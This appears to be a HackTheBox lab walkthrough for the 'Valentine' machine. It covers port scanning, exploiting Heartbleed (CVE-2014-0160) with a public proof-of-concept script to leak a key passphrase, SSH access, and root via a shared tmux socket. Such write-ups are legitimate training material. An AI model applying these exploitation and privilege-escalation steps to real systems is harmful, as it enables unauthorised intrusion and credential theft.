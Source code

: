 ```yaml
---
title: HackTheBox - Valentine
date: 2020-12-25 20:45:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, nmap scan vuln, CVE-2014-0160, heartbleed, linpeas, tmux, writeup, oscp-prep]
image: /assets/img/htb/machines/linux/easy/valentine/valentine.png
---
```


## Foothold

### `nmap` scan (open ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Valentine-full-port-scan.txt 10.10.10.79
Warning: 10.10.10.79 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.10.10.79
Host is up (0.099s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2020-12-24T14:16:15+00:00; +3m43s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache/2.2.22 (port 443)

Thanks to the [`nmap` scan](#nmap-scan-open-ports) we can identify a domain name: `valentine.htb`. Let's add it to `/etc/hosts`.

#### `dirb`

![dirb](/assets/img/htb/machines/linux/easy/valentine/dirb.png)

There is `cgi-bin` directory, is it to vulnerable to **Shellshock** ? Let's look for `.sh` file:

![sh](/assets/img/htb/machines/linux/easy/valentine/sh.png)

Nothing found. Let's check the URLs that `dirb` has highlighted.

#####  `/dev` directory

There are two files in the `/dev` directory: 

![dev](/assets/img/htb/machines/linux/easy/valentine/dev.png)

- **notes.txt**:

![notes](/assets/img/htb/machines/linux/easy/valentine/notes.png)

- **hype_key**:

![hype_key](/assets/img/htb/machines/linux/easy/valentine/hype_key.png)

###### cyberchef

Via [CyberChef](https://gchq.github.io/CyberChef/), we decoded **hype_key**:

![cyberchef](/assets/img/htb/machines/linux/easy/valentine/cyberchef.png)

Since it's an **encrypted** RSA private key (as we can see on line 2), I will not try to log in with ssh, because it will certainly ask for the private key's password.

###### XSS / PHP injection

I saw that we can inject html/javascript code in both `/encode` and `/decode` directories:

![xss](/assets/img/htb/machines/linux/easy/valentine/xss-3.png)

So I tried to inject a tiny PHP reverse shell:

![php injection](/assets/img/htb/machines/linux/easy/valentine/php-injection.png)

After multiple attempts, I was pissed off so I ran another nmap scan.

### `nmap` scan (vuln)

```bash
$ nmap -min-rate 5000 --max-retries 1 --script vuln -oN vuln-scan.txt 10.10.10.79
```

![heartbleed](/assets/img/htb/machines/linux/easy/valentine/heartbleed.png)

The web server seems vulnerable to the **Heartbleed vulnerability** that affects OpenSSL. 

![xkcd heatbleed explanation](https:///assets/img/htb/machines/linux/easy/valentines.xkcd.com/comics/heartbleed_explanation.png)

> The Heartbleed bug allows anyone on the Internet to read the memory of the systems affected by the vulnerable versions of the OpenSSL software. This compromises the secret keys used to identify the service providers and to encrypt the traffic, the names and passwords of the users and the actual content. This allows attackers to eavesdrop on communications, steal data directly from the services and users and to impersonate services and users. [Source: [heartbleed.com](https://heartbleed.com/)]

We can confirm this by using `sslyze`:

![sslyze](/assets/img/htb/machines/linux/easy/valentine/sslyze.png)

In order to exploit it, we can use this [PoC script](https://gist.github.com/eelsivart/10174134).

When running the script we get an output with a lot of useless 00's:

```bash
$ python heartbleed.py 

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)
Usage: heartbleed.py server [options]

Test and exploit TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  TCP port to test (default: 443)
  -n NUM, --num=NUM     Number of times to connect/loop (default: 1)
  -s, --starttls        Issue STARTTLS command for SMTP/POP/IMAP/FTP/etc...
  -f FILEIN, --filein=FILEIN
                        Specify input file, line delimited, IPs or hostnames
                        or IP:port or hostname:port
  -v, --verbose         Enable verbose output
  -x, --hexdump         Enable hex output
  -r RAWOUTFILE, --rawoutfile=RAWOUTFILE
                        Dump the raw memory contents to a file
  -a ASCIIOUTFILE, --asciioutfile=ASCIIOUTFILE
                        Dump the ascii contents to a file
  -d, --donotdisplay    Do not display returned data on screen
  -e, --extractkey      Attempt to extract RSA Private Key, will exit when
                        found. Choosing this enables -d, do not display
                        returned data on screen.
$ python heartbleed.py $TARGET
```

![00](/assets/img/htb/machines/linux/easy/valentine/00.png)

Changing the line 116 allows us to reduce the payload size (0x40 to 0x10):

![payload length](/assets/img/htb/machines/linux/easy/valentine/payload_length.png)

We can run the script multiple times via the `-n` option. By doing so, we are able to read target's memory's content:

![secret](/assets/img/htb/machines/linux/easy/valentine/secret.png)

```bash
$ echo -n aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d
heartbleedbelievethehype
```

`heartbleedbelievethehype` is probably the passphrase of the `hype_key` we found earlier. Let's give it a try with `hype` as username _(because of the filename)_ :

![ssh](/assets/img/htb/machines/linux/easy/valentine/ssh.png)

## User (hype)

```bash
hype@Valentine:~/Desktop$ cat user.txt 
e6710a5464769fd5fcd216e076961750
hype@Valentine:~/Desktop$ 
```

This time, we do not know the password of the user so we cannot use `sudo` to check if there is a way to perform a privilege escalation.

Therefore, I will use [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to perform enumeration on the system.

> The URL [https://linpeas.sh/](https://linpeas.sh/) exists :D

There are unexpected directories in `/` that we have access:

![unexpected in root](/assets/img/htb/machines/linux/easy/valentine/linpeas-1.png)

![/.devs directory](/assets/img/htb/machines/linux/easy/valentine/devs.png)

The process below leads us to a privesc:

![strange process](/assets/img/htb/machines/linux/easy/valentine/linpeas-3.png)

```bash
hype@Valentine:/tmp$ tmux -S /.devs/dev_sess
```

## Root

![root](/assets/img/htb/machines/linux/easy/valentine/root.png)

___

## Useful links

- [CyberChef](https://gchq.github.io/CyberChef/)
- [CVE-2014-0160](http://cvedetails.com/cve/2014-0160/)
- [Heartbleed](https://heartbleed.com/)
- [Heartbleed exploit PoC](https://gist.github.com/eelsivart/10174134)
